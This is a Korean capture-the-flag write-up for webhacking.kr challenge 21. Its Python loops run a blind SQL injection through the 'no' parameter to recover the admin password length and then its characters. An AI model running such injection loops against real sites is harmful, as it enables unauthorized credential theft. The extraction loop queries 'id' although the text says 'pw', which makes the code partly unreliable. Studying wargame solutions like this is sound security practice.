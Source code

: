 # 21

## 문제

```
webhacking.kr/challenge/bonus/bonus-1/index.php?no=1&id=&pw=
```

입력칸에 값을 넣으면 `no`로 들어가 뭔가를 구별한 후 `True`또는 `False`를 표시한다.

## 풀이

코드를 짜서 쉽게 풀자. 일단 테이블에서 계정 Column 이름을 각각 `id`와 `pw`라고 가정하고 시작한다.

2가 알아내고 싶은 `admin` 계정이다.

```python
for i in range(1,100):
    url_param = "2 and length(pw)=" + str(i)
    url_param = url_param.replace(' ', '%20')
    req = urllib.request.Request(url + url_param)
    req.add_header("Cookie", cookie)
    res = str(urllib.request.urlopen(req).read())
    if res.find("True") != -1:
        print("admin pw LENGTH :", i)
        length = i
        break
```

그리고 `pw`값을 하나씩 추출하자.

```python
for i in range(1, length+1):
    for c in range(65,127):
        url_param = "2 and RIGHT(LEFT(id," + str(i) + "),1)=" + str(hex(c))
        url_param = url_param.replace(' ', '%20')
        req = urllib.request.Request(url + url_param)
        req.add_header("Cookie", cookie)
        res = str(urllib.request.urlopen(req).read())
        if res.find("True") != -1:
            password += chr(c)
            print(password)
            break
```

추출한 `pw`값을 인증키로 인증을 하던지, `id`와 `pw`로 GET 파라미터로 넘겨주면 된다. 나 같은 경우엔 이게 왜 인증이 안될까 하고 막 넣어보다가 나중에 클리어 처리가 된것을 확인했다.